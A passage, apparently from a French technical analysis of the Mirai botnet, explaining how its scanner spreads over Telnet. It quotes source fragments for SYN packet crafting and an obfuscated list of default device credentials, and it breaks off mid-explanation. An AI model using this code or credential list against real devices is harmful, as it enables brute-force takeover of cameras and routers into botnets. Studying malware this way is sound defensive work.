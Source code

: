 En activant la directrice de préprocesseur `MIRAI_TELNET`, il est également possible d'utiliser les bots afin d'étendre le réseau en se connectant à d'autres bots. La fonction `scanner_init`, définie dans mirai/bot/scanner.c ligne 57, est alors appelée avant que le bot ne rentre dans la boucle expliquée dans le paragraphe précédent (mirai/bot/main.c ligne 159):

```c
#ifdef MIRAI_TELNET
    scanner_init();
#endif
```

Dans `scanner_init`, un nouveau processus est créé pour que cette étape d'expansion du réseau se fasse en parallèle des autres activités du bot. L'attaquant forge alors un paquet TCP ciblant le protocole Telnet port 23 (mirai/bot/scanner.c ligne 116):

```c
// Set up TCP header
tcph->dest = htons(23);
tcph->source = source_port;
tcph->doff = 5;
tcph->window = rand_next() & 0xffff;
tcph->syn = TRUE;
```

On trouve ensuite la liste des mots de passe testés par le programme afin de s'authentifier via Telnet (mirai/bot/scanner.c ligne 123). La liste ci-dessous a été écourtée, la liste originale comptant 62 couples identifiant / mot de passe.

```c
add_auth_entry("\x50\x4D\x4D\x56", "\x5A\x41\x11\x17\x13\x13", 10);                     // root     xc3511
add_auth_entry("\x50\x4D\x4D\x56", "\x54\x4B\x58\x5A\x54", 9);                          // root     vizxv
add_auth_entry("\x50\x4D\x4D\x56", "\x43\x46\x4F\x4B\x4C", 8);                          // root     admin
add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x43\x46\x4F\x4B\x4C", 7);                      // admin    admin
add_auth_entry("\x50\x4D\x4D\x56", "\x1A\x1A\x1A\x1A\x1A\x1A", 6);                      // root     888888
add_auth_entry("\x50\x4D\x4D\x56", "\x5A\x4F\x4A\x46\x4B\x52\x41", 5);                  // root     xmhdipc
//...
```

La plupart de ces identifiants correspondent à des caméras. Les autres machines visées sont des routeurs et des imprimantes. La liste complète des cibles a été reconstituée par Brian Krebs et est disponible sur son site [8].

Le processus rentre ensuite dans une boucle infinie. Une adresse IP aléatoire est générée à chaque itération par un appel à la fonction `get_random_ip()` (mirai/bot/scanner.c ligne 213), définie dans mirai/bot/scanner.c ligne 674. Certaines plages d'adresses IP sont évitées, telle que celle du département de la défense américain par exemple (voir mirai/bot/scanner.c ligne 688 pour la liste complète). Lorsque la machine répond à la tentative de connexion Telnet, le programme teste les mots de passe. Si un mot de passe est trouvé, la fonction `report_working()` est appelée (mirai/bot/scanner.c ligne 612). Cette fonction renvoie au loader l'adresse IP, le port, l'identifiant et le mot de passe utilisés pour se connecter (mirai/bot/scanner.c ligne 948):
